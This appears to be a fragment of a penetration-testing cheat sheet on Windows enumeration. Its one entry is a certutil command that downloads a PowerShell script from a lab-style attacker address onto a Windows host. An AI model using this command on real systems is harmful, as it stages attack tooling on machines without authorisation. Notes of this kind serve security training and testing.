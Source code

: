 # Windows Enumeration Tips and Trips


##### Download files from localhost
certutil.exe -urlcache -split -f "http://10.10.14.15/winarch.ps1" winarch.ps1

